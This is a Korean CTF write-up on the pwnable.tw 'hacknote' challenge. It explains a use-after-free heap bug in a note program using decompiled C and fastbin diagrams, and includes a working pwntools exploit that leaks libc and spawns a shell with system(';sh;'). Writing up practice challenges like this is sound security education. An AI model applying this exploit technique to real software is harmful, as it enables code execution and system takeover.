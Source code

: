 ```yaml
---
layout: post
title: "pwnable.tw - hacknote"
date: 2018-10-30
excerpt: "200pts"
tags: [write-up]
comments: true
---
```

Use After Free 취약점을 이용한 heap exploit
* * *
![main](https://t1.daumcdn.net/cfile/tistory/99A1D3345BC8899029)

메인은 간단하게
1. Add note
2. Delete note
3. Print note
4. Exit

으로 이루어져있으며 히든 메뉴는 없습니다.
```c
unsigned int sub_8048646()
{
  _DWORD *v0; // ebx
  signed int i; // [esp+Ch] [ebp-1Ch]
  int size; // [esp+10h] [ebp-18h]
  char buf; // [esp+14h] [ebp-14h]
  unsigned int v5; // [esp+1Ch] [ebp-Ch]
 
  v5 = __readgsdword(0x14u);
  if ( dword_804A04C <= 5 )
  {
    for ( i = 0; i <= 4; ++i )
    {
      if ( !ptr[i] )
      {
        ptr[i] = malloc(8u);
        if ( !ptr[i] )
        {
          puts("Alloca Error");
          exit(-1);
        }
        *(_DWORD *)ptr[i] = sub_804862B;
        printf("Note size :");
        read(0, &buf, 8u);
        size = atoi(&buf);
        v0 = ptr[i];
        v0[1] = malloc(size);
        if ( !*((_DWORD *)ptr[i] + 1) )
        {
          puts("Alloca Error");
          exit(-1);
        }
        printf("Content :");
        read(0, *((void **)ptr[i] + 1), size);
        puts("Success !");
        ++dword_804A04C;
        return __readgsdword(0x14u) ^ v5;
      }
    }
  }
  else
  {
    puts("Full");
  }
  return __readgsdword(0x14u) ^ v5;
}
```
위는 Add note의 디컴파일된 코드인데, 대부분의 heap exploit 바이너리처럼 일반적인 방식으로 malloc만 하는 것이 아니라

바이너리 자체에서 특수한 방식으로 note을 배열하고 관리합니다.

![chunk](https://t1.daumcdn.net/cfile/tistory/99C6A23D5BC88BF702)

Add note로 생성된 note는 위와 같은 형태로 구성되며
```c
int __cdecl sub_804862B(int a1)
{
  return puts(*(const char **)(a1 + 4));
}
```
위 코드처럼 인자+4를 출력하는, 그림에선 puts(+4)로 표현되어 있는 함수 주소와

우리가 입력한 데이터의 주소를 user_data로 가지는 chunk가 먼저 할당되고, 그 밑에 사용자가 요청한 chunk가 할당됩니다.

또한 Delete note시 heap N-1이 먼저 free되고, heap N-2가 그 다음으로 free됩니다. 하지만 ptr은 남아있어 exploit에 이용됩니다.
```c
unsigned int sub_80488A5()
{
  int v1; // [esp+4h] [ebp-14h]
  char buf; // [esp+8h] [ebp-10h]
  unsigned int v3; // [esp+Ch] [ebp-Ch]
 
  v3 = __readgsdword(0x14u);
  printf("Index :");
  read(0, &buf, 4u);
  v1 = atoi(&buf);
  if ( v1 < 0 || v1 >= dword_804A04C )
  {
    puts("Out of bound!");
    _exit(0);
  }
  if ( ptr[v1] )
    (*(void (__cdecl **)(void *))ptr[v1])(ptr[v1]);
  return __readgsdword(0x14u) ^ v3;
}
```
Print note를 눈여겨보아야 하는데, 지정한 인덱스의 chunk의 puts(+4)를 인자로 puts(+4)를 call합니다.

따라서 만약 우리가 puts(+4)와 &data를 임의의 값으로 바꾸면 Print note시 원하는 함수를 실행할 수 있습니다.

일단 exploit 루트는 uaf인데, fastbin을 두 개 할당해주고 한번 free하면 heap N-1과 heap N-2의 크기 차이로 다른 fastbin에 들어가게 됩니다.

![fastbin](https://t1.daumcdn.net/cfile/tistory/992BF6445BC8902010)

이 후 더 작은 크기의  fastbin을 요청하면 heap N-1과 heap N-2 모두 (저 상황에서) 0x10 fastbin에서 할당됩니다. (배열 꼬임)

fastbin의 특성상 두번째 free된 chunk가 먼저 할당되고, 첫번째 heap N-1이 우리가 새롭게 할당된 chunk N-2의 위치가 되는 것입니다.

ptr은 유지되어 우리가 puts(+4)는 유지한채 아무 함수의 got를 &data에 덮어 씌우면  Print note시 libc leak이 가능하게 됩니다.


libc leak 후 offset을 이용해 system을 구하면 같은 원리로 쉘 취득이 가능합니다.

이떄 Print note로 실행되는 함수는 함수 주소와 인자가 같아(ptr[v1]) 단순히 system + &/bin/sh을 넘긴다면 system("&system/binsh")가 되므로 쉘을 얻을 수 없습니다. 

그러므로 단순히 system + ";sh;"를 넘기면 system("&system;sh;")로 쉘이 따집니다.

exp.py
```python
from pwn import *
 
#p = process('./hacknote')
p = remote('chall.pwnable.tw', 10102)
e = ELF('./hacknote')
 
puts_got = e.got['puts']
print_4 = 0x0804862b
 
 
puts_offset = 0x5f140
system_offset = 0x3a940
 
'''
PROCESS
puts_offset = 0x5fca0
system_offset = 0x3ada0
'''
 
def alloc(size, payload):
    p.recvuntil('Your choice :')
    p.sendline('1')
    p.recvuntil('Note size :')
    p.sendline(str(size))
    p.recvuntil('Content :')
    p.sendline(payload)
 
def free(idx):
    p.recvuntil('Your choice :')
    p.sendline('2')
    p.recvuntil('Index :')
    p.sendline(str(idx))
    
def dump(idx):
    p.recvuntil('Your choice :')
    p.sendline('3')
    p.recvuntil('Index :')
    p.sendline(str(idx))
 
# leak libc
alloc(24, 'AAAA')
alloc(24, 'BBBB')
 
free(0)
free(1)
payload = p32(print_4)
payload += p32(puts_got)
 
alloc(12, payload)
dump(0)
 
leak = u32(p.recv(4))
 
base = leak - puts_offset
system = base + system_offset
 
log.success('libc base leaked : ' + hex(base))
 
#exploit
free(2)
 
payload = p32(system)
payload += ";sh;"
 
alloc(8, payload)
dump(0)
 
p.interactive()
```
* * *
UAF는 의도치 않게 heap 배열이 꼬여버리는 현상에서 시작되는 것 같습니다.
